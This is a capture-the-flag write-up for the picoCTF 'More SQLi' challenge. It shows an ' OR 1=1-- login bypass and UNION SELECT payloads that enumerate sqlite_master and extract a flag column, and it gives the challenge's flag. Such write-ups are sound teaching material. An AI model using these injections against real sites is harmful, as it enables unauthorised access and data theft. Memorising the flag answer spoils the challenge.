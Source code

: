 # More SQLi (Medium)

## Description
Can you find the flag on this website.
Try to find the flag [here](http://saturn.picoctf.net:53542/).

- Hints
  - SQLiLite

Challenge Link: https://play.picoctf.org/practice/challenge/358
---


## Solution
### 1. Launch instance and visit the website 
<img width="1002" height="670" alt="image" src="https://github.com/user-attachments/assets/e1d9cafa-a36a-4126-bbde-e8fb21df905d" />

### 2. Attempt
I try to login using username and password `admin`.
```
username: admin 
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin '
```
### 3. Using `' OR 1=1--` SQL injection for password
```
username: 123
password: ' OR 1=1--
SQL query: SELECT id FROM users WHERE password = '' OR 1=1-- ' AND username = '123'
```
This injection works because `' OR 1=1--` turns the condition into always true `(1=1)`, and the `--` comment symbol cuts off the rest of the SQL query, including the username check. So the system skips authentication and grants access.

### 4.  Enumerate All Table and Column Names
Type this in the search bar and there is a `flag` column in `more_table` table.
```
' UNION SELECT sql,NULL,NULL FROM sqlite_master-- -
```
<img width="1342" height="1160" alt="image" src="https://github.com/user-attachments/assets/d06c69f8-0034-4e49-960a-dcc9a98014f9" />

### 5. Extract the Flag from `more_table`
Now that we know the table and column names, we can craft another injection to extract actual data. This payload selects the `id` and `flag` columns from the `more_table`:
```
' UNION SELECT id,flag,NULL FROM more_table-- -
```

<img width="1682" height="966" alt="image" src="https://github.com/user-attachments/assets/f4776745-7ca4-4d04-a94f-a44f01c6a65f" />

## Flag
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}
```
